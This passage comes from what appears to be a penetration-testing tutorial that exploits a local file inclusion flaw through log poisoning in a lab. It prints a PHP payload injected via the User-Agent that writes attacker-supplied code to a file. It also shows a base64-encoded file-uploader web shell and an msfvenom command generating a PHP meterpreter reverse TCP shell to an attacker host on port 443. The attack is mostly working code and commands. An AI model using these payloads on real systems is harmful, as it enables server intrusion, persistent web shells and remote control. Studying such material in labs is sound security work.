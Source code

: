 192.168.201.1 - - [27/Dec/2020:09:29:05 -0500] "GET /listings.php?cmd=PGZvcm0gZ
W5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2xvLnBocCIgbWV0aG9kPSJQT1NU
Ij48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2YWx1ZT0iNTEyMDAwIi8
%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGUiIC8%2BPGlucH
V0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVwbG9hZGZ
pbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRma
WxlKSl7ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7
fWVsc2Uge2VjaG8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNob
yAnSGVyZSBpcyBzb21lIG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50
ICI8L3ByZT4iOz8%2B HTTP/1.1" 200 781 "-" "&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
[......]
HTTP_USER_AGENT &lt;/td>&lt;td class="v">&lt;?php $data=base64_decode($_GET[&#039;cmd&#039;]);$file=fopen(&#039;./data/yolo.php&#039;,&#039;w&#039;);fwrite($file,$data);fclose($file);phpinfo();?&gt; &lt;/td>&lt;/tr>
[.......]
</pre>

<p style="text-align:justify;">
Then we can execute the file uploader using the following URL 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">http://192.168.201.3/data/yolo.php</pre>

<p style="text-align:justify;">
the following screenshot shows the file uploader
</p>

<img src="{{ site.baseurl  }}/assets/images/LFI/uploader.png" style="display:block;margin-left:auto;margin-right:auto;border:1px solid #1A1B1C;" width="600" height="300">


<p style="text-align:justify;">
Now that everything is set up, we are ready to create our final reverse tcp php payload and upload it on the server. The following command will be used in order to generate our php tcp reverse payload 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f raw > shell.php
</pre>

<p style="text-align:justify;">
Now that the payload is ready we will use the new uploader in order to upload the payload on the server. 
</p>

<img src="{{ site.baseurl  }}/assets/images/LFI/uploaded.png" style="display:block;margin-left:auto;margin-right:auto;border:1px solid #1A1B1C;" width="600" height="300">
